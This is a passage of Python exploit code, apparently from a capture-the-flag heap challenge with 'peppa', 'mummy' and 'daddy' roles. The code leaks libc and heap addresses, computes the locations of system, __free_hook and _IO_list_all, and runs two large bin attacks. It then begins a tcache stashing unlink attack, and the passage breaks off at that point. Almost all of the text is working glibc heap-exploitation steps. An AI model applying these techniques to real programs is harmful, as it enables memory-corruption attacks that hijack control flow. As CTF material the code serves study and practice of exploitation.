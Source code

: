 ```python
change_role(1)
add(0xA0)               # mummy index 5, split peppa #0
change_role(0)
add(0x160)              # peppa index 8
for i in range(7):      # fill 0x130 tcache, peppa index 9~15
    add(0x160)
    delete(i + 9)
delete(8)
change_role(1)
change_role(0)
view(8)                 # get libc base address
io.recv(0x10)
libc_base = u64(io.recv(6) + b'\x00\x00') - 0x1ECBE0
system = libc_base + libc.symbols['system']
__free_hook = libc_base + libc.symbols['__free_hook']
_IO_list_all = libc_base + libc.symbols['_IO_list_all']
change_role(1)
add(0xB0)               # mummy index 6, split peppa #8

# 获取堆地址
change_role(0)
change_role(1)
view(1)
io.recv(0x10)
heap_address = u64(io.recv(6) + b'\x00\x00')        # get a heap address

print('libc base: ', hex(libc_base))
print('system: ', hex(system))
print('__free_hook: ', hex(__free_hook))
print('_IO_list_all: ', hex(_IO_list_all))
print('heap address: ', hex(heap_address))

# first large bin attack
change_role(1)
add(0x440)     # mummy index = 7
change_role(0)
add(0x430)     # peppa index = 16
add(0x430)     # peppa index = 17
add(0x430)     # peppa index = 18
add(0x430)     # peppa index = 19
change_role(1)
delete(7)
add(0x450)     # mummy index = 8, switch mummy #7 into large bin
change_role(0)
delete(17)
change_role(1)
change_role(0)
change_role(1)
edit(7, (p64(__free_hook - 0x18 - 0x18) * 2) + b'A' * (0x440 // 0x30 * 0x10 - 0x10))
change_role(2)
add(0xF0)    # daddy index = 0, complete first large bin attack

# second large bin attack
change_role(1)
change_role(0)
delete(19)
change_role(1)
edit(7, (p64(_IO_list_all - 0x20) * 2) + b'A' * (0x440 // 0x30 * 0x10 - 0x10))
change_role(2)
add(0xF0)    # daddy index = 1, complete first large bin attack

# tcache stashing unlink attack
change_role(0)
```